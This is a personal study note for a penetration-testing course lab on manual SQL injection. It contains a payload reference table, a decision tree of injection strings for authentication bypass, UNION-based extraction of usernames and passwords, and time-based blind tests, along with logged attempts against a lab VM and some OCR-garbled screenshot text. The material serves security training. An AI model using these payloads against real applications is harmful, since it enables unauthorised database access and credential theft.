

---
tags:
  - phase/exploitation
  - exam-practice
  - lab
---

# Labs

> [!tip] Quick Reference — SQLi
> | Step | MySQL | MSSQL |
> |------|-------|-------|
> | Detect | `'` `"` `' OR 1=1--` | same |
> | Comment | `-- -` `#` | `--` |
> | Version | `@@version` | `@@version` |
> | Current DB | `database()` | `db_name()` |
> | List DBs | `UNION SELECT schema_name FROM information_schema.schemata` | `SELECT name FROM sys.databases` |
> | List tables | `UNION SELECT table_name FROM information_schema.tables WHERE table_schema=database()` | `SELECT table_name FROM information_schema.tables` |
> | List columns | `UNION SELECT column_name FROM information_schema.columns WHERE table_name='users'` | same |

## Decision Tree

```
Possible SQLi parameter?
├── [1] Test for error
│   └── Add ' to input → SQL error visible?
│       ├── YES → error-based SQLi
│       └── NO  → try boolean blind: ' OR 1=1-- vs ' OR 1=2--
│
├── [2] Find column count
│   └── ' ORDER BY 1-- , ORDER BY 2-- ... until error
│       └── Error on N → column count is N-1
│
├── [3] UNION attack
│   ├── ' UNION SELECT NULL,NULL,...--  (match column count)
│   ├── Find which column reflects output
│   │   └── ' UNION SELECT 1,2,3,4--  (look for numbers in page)
│   └── Extract data
│       └── ' UNION SELECT username,password,3,4 FROM users--
│
├── Blind SQLi (no visible output)?
│   ├── Boolean: ' AND 1=1-- (true) vs ' AND 1=2-- (false)
│   └── Time-based: ' AND SLEEP(5)--  (MySQL) / WAITFOR DELAY '0:0:5'-- (MSSQL)
│
└── Got credentials?
    └── Try them: SSH, SMB, WinRM, web login
```

## Visual Flow



> [!success] What success looks like
> The auth bypass returns "Authentication Successfull". `' ORDER BY 4-- -` works while `' ORDER BY 5-- -` errors with "Unknown column '5'" → 4 columns. `' UNION SELECT 1,2,3,4-- -` is accepted, confirming the column count even though this app only echoes success/failure (so you infer results from the web application's response).

> [!danger] Common errors
> - You expected `1,2,3,4` to print but only see "Authentication Successfull" → this app reflects status, not data; treat it as a blind/login-bypass context, not clean UNION output.
> - "Unknown column 'N' in 'order clause'" → that is the *signal* you went one past the real count; the column count is N-1.
> - Comment not closing the query → use `-- -` (two dashes, space, dash) so trailing whitespace is not truncated.
> - Quote/encoding issues when injecting via Burp or the browser → see [[🔣 Encoding Reference]].
> Full list: [[⚠️ Common Errors & Troubleshooting]]

> [!tip] Beginner note
> Not every injectable app shows you data. When `1,2,3,4` never appears but `1=1` still bypasses login, the page only returns a yes/no — that is your cue to switch to **blind** techniques and read the application's response instead of the database's.

## Resources
- [HackTricks — SQLi](https://book.hacktricks.xyz/pentesting-web/sql-injection)
- [PayloadsAllTheThings — SQLi](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
- [PortSwigger SQLi Cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)


SQL Injections Attacks - Manual SQL Exploitation - VM #1

## 1. Boot up VM 1 and replicate the SQLi authentication bypass payload we have explored in this Learning Unit. In this section, which PHP variable is used to store user's input?


> [!note]- Screenshot
> ```
> Request
> 
> Pretty Raw Hex
> 
> 2 POST / HITP/1.1
> 
> 2 Host: 192,168. 105.16
> 
> 3 User-Agent: Mozilla/S5.0 (X11; Linux x86_64;_rv:140.0) Gecko/20100101 Firefox/140.0
> 4 Accept: text/html, application/xhtml+xml, appli cation/xml;q=0.9,*/*;q=0.8
> 5 Accept-Language: en-US,en;q=0.5,
> 
> 6 Accept-Encoding: gzip, deflate, br
> 
> 7 Content-Type: application/x-www-form-urlencoded
> 
> © Content-Length: 26
> 
> © Origin: http: //192. 168.105. 16
> 
> 10 Connection: keep-alive
> 
> 11 Referer: http: //192. 168.105.16/
> 
> 12 Cookie: PHPSESSID=2242347a3bdec76a2b1ce14fce12d068
> 
> 13 Upgrade-Insecure-Requests: 1
> 
> 14 Priority: u=0, i
> 
> 15,
> 
> 16 uid=427+0R+1%301 6password=
> ```


## 2. Continue working on VM 1 and replicate the SQLi UNION-based attack we have discussed in this Learning Unit. For the UNION-based attack to succeed, what other condition needs to be satisfied in addition to having the same data types among the two queries?


## <Column number>

Continued adding:

' ORDER BY 1-- -
- Invalid password!  </font></body></html>
' ORDER BY 2-- -
Invalid password!  </font></body></html>
' ORDER BY 3-- -
Invalid password!  </font></body></html>
' ORDER BY 4-- -
Invalid password!  </font></body></html>
' ORDER BY 5-- -
Error: Unknown column '5' in 'order clause' </body></html>

✅ Step 1 — Test UNION with NULLs

' UNION SELECT NULL,NULL,NULL,NULL-- -
Authentication Successfull  </font></body></html>

✅ Step 2 — Identify visible columns

' UNION SELECT 1,2,3,4-- -
Authentication Successfull  </font></body></html>

What this means
✅ UNION works
✅ Column count is correct (4)
❌ No raw output is reflected on the page

⚠️ Not a clean UNION output scenario
→ This behaves like a BLIND SQLi / LOGIN BYPASS context

> [!note]- Screenshot
> ```
> Ft
> @ Why numbers didn’t show
> The application is likely doing something like:
> oO Sy me
> 
> a 0 CapRIED ES)
> 
> 2 echo “Authentication Successful";
> 
> 3) else (
> 
> 4 echo “Invalid password";
> 
> 5}
> @ It’s only returning:
> + Mi success / failure
> + € NOT actual data (like 1,2,3,4)
> ```


## 3. Replicate the time-based and boolean-based blind SQL injections described in this Learning Unit on VM 1. Blind SQLi are called like this because the database output is never returned to the user. To infer the result of the query, the output of which component is employed instead?


## <The web application>

---
%% graph-links %%
## Related
- [[UNION-based payloads]]
- [[Blind SQL injections]]
- [[Identifying SQLi via error-based payloads]]

> [!info] Navigation
> Section: [[SQL Injection Attacks/Manual SQL exploitation/_index|Manual SQL exploitation]] · Home: [[🏠 Home]]

